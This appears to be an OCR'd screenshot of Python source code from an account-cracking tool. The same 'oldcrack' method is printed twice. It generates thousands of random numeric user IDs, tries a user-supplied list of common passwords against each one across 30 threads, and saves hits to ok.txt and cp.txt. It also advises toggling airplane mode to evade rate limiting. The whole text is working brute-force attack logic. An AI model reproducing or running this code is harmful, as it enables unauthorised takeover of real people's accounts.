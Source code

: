 	def oldcrack(self):
		x = 11111111
		xx = 99999999
		idx = " 1000000"
		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))

	def oldcrack(self):
		x = 11111111
		xx = 99999999
		idx = " 1000000"
		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
